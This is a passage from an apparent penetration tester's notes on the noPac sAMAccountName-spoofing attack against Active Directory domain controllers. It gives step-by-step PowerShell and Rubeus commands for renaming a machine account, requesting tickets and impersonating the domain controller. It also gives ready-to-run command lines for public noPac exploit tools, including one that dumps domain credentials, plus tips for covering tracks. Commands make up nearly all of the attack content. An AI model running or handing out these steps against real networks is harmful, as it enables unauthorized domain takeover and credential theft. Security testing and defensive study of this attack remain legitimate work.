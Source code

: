 3. Rename the fake computer samaccountname to domain controller name (FakeComputer$ -> DC01)
```powershell
Set-MachineAccountAttribute -MachineAccount "FakeComputer" -Value "DC01" -Attribute samaccountname -Domain legitcorp.local -Verbose
```

4. Request a TGT of the domain controller
```powershell
Rubeus.exe asktgt /user:DC01 /password:Password2 /domain:legitcorp.local /dc:DC01.legitcorp.local /nowrap
```

5. Rename the fake computer name to its original name (DC01 -> FakeComputer$)
```powershell
Set-MachineAccountAttribute -MachineAccount "FakeComputer" -Value "FakeComputer" -Attribute samaccountname -Verbose -Domain legitcorp.local
```

6. Request TGS on behalf of the domain controller ticket we obtained previously.
```powershell
Rubeus.exe s4u /impersonateuser:DC01$ /nowrap /dc:DC01.legitcorp.local /self /altservice:ldap/DC01.legitcorp.local /ptt /ticket:<base64-blob-ticket>
```

7. Perform cleanup (OPSEC Friendly)
```powershell
Remove-MachineAccount -Domain legitcorp.local -MachineAccount FakeComputer
```

### Automated Exploit
There are a few automated scripts and tools out there to perform this exploit. This are some of the tools that i use previously on an engagement.
* Python (https://github.com/Ridter/noPac.git)
```bash
python3.exe .\noPac.py domain.local/lowpriv:Passw0rd -dc-ip 10.0.10.10 -dc-host DC01 --impersonate administrator -dump
```

* CSharp (https://github.com/cube0x0/noPac.git)
```powershell
noPac.exe -domain domain.local -user low_priv -pass 'P@ssw0rd' /dc dc01.domain.local /mAccount FakeComputer /service [ldap,cifs,http] /ptt
```

Note: _Always perform cleanup if you are exploiting this against the corporate environment. You can use the following command to verify and remove a computer account_
```powershell
# verify computer account with wmic
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname

# remove a computer account
net computer \\FakeComputer /delete
```


### Reference 
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing

